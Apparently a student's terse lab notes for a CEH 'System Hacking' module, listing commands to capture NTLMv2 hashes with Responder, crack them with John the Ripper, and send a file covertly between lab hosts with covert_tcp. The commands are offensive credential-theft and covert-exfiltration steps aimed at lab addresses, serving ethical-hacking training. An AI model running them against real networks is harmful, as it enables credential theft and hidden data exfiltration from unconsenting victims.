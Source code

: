 # 6 - System Hacking

## Module 06 - System Hacking

### **Lab1 - Task1: Perform Active Online Attack to Crack the System's Password using Responder**

* **Linux:**
  * cd
  * cd Responder
  * chmox +x ./Responder.py
  * **sudo ./Responder.py -I eth0**
  * passwd: \*\*\*\*
* **Windows**
  * run
  * \CEH-Tools
* **Linux:**
  * Home/Responder/logs/SMB-NTMLv2-SSP-**\<Target IP>**txt
  * sudo snap install john-the-ripper
  * passwd: \*\*\*\*
  * **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

### **Lab3-Task6: Covert Channels using Covert\_TCP**

* **Attacker:**
  * cd Desktop
  * mkdir Send
  * cd Send
  * echo "Secret"->message.txt
  * Place->Network
  * Ctrl+L
  * **smb://\<Target IP>**
  * Account & Password
  * copy and paste covert\_tcp.c
  * **cc -o covert\_tcp covert\_tcp.c**
* **Target:**
  * **tcpdump -nvvx port 8888 -I lo**
  * cd Desktop
  * mkdir Receive
  * cd Receive
  * File->Ctrl+L
  * smb://**\<Target IP>**
  * copy and paste covert\_tcp.c
  * cc -o covert\_tcp covert\_tcp.c
  * **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  * **Tcpdump captures no packets**
* **Attacker**
  * **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt**
  * Wireshark (message string being send in individual packet)
